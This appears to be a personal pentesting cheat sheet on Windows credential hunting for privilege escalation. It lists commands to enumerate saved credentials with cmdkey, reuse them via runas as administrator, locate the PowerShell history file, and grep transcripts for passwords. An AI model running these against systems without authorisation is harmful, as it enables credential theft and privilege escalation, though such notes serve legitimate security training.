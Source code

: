 # Navigation
- **[[#Finding Saved Creds]]**
- **[[#Deleted Files]]**
- **[[#Powershell history]]**
- **[[#Powershell Trascript]]**

## Finding Saved Creds
```powershell
cmdkey /list
#If Admin creds are saved then run
runas.exe /savecred /user:administrator cmd
```
## Deleted Files
- Search Recycle bin for files that contain or may contain passwords such like **unattend.xml**
 ## Powershell history
** Default Location**
```powershell
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
#For example
C:\Users\zeyad\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
## Powershell Trascript
-This service logges the PowerShell session from commands and output  of the commands.
- Defualt logfile place is C:\Users\%USER%\Documents
```powershell
#Example 
cat C:\Users\zeyad\DocumentsFILE.txt | select-string "pass","cred"
```